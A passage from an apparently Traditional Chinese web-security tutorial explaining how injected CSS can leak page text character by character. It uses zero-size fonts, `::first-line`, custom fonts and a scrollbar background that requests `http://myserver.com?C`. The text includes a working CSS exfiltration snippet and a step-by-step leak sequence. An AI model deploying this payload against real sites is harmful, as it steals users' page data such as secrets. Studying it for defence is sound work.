 畫面上你就只會看到一個「C」的字元，因為我們先用 `font-size: 0px` 把所有字元的尺寸都設為 0，再用 `div::first-line` 去做調整，讓第一行的 font-size 變成 30px。換句話說，只有第一行的字元能看到，而現在的 div 寬度只有 20px，所以只會出現第一個字元。

接著，我們再運用剛剛學會的那招，去載入看看不同的字體。當我載入 fa 這個字體時，因為畫面上沒有出現 A，所以不會有任何變化。但是當我載入 fc 這個字體時，畫面上有 C，所以就會用 Comic Sans MS 來顯示 C，高度就會變高，scrollbar 就會出現，就可以利用它來發出 request，像這樣：

``` css
div {
  font-size: 0px;
  height: 40px;
  width: 20px;
  font-family: fc, "Courier New";
  letter-spacing: 0px;
  word-break: break-all;
  overflow-y: auto;
  overflow-x: hidden;
  --leak: url(http://myserver.com?C);
}

div::first-line{
  font-size: 30px;
}

div::-webkit-scrollbar {
  background: blue;
}

div::-webkit-scrollbar:vertical {
  background: var(--leak);
}
```

那我們要怎麼樣不斷使用新的 font-family 呢？用 CSS animation 就可以做到，你可以用 CSS animation 不斷載入不同的 font-family 以及指定不同的 --leak 變數。

如此一來，我們就能知道畫面上的第一個字元到底是什麼。

知道了第一個字元以後，我們把 div 的寬度變長，例如說變成 40px，就能容納兩個字元，因此第一行就會是前兩個字，接著再用一樣的方式載入不同的 font-family，就能 leak 出第二個字元，詳細流程如下：

1. 假設畫面上是 ACB
2. 調整寬度為 20px，第一行只出現第一個字元 A
3. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，載入 scrollbar 背景，傳送 request 給 server
4. 載入字體 fb，但是 B 沒有出現在畫面上，因此沒有任何變化。
5. 載入字體 fc，但是 C 沒有出現在畫面上，因此沒有任何變化。
6. 調整寬度為 40px，第一行出現兩個字元 AC
7. 載入字體 fa，因此 A 用較高的字體顯示，出現 scrollbar，此時應該是因為這個背景已經載入過，所以不會發送新的 request
8. 載入字體 fb，沒出現在畫面上，沒任何變化
9. 載入字體 fc，C 用較高的字體顯示，出現 scrollbar 並且載入背景
10. 調整寬度為 60px，ACB 三個字元都出現在第一行
11. 載入字體 fa，同第七步
12. 載入字體 fb，B 用較高的字體顯示，出現 scrollbar 並且載入背景
13. 載入字體 fc，C 用較高的字體顯示，但因為已經載入過相同背景，不會發送 request
14. 結束
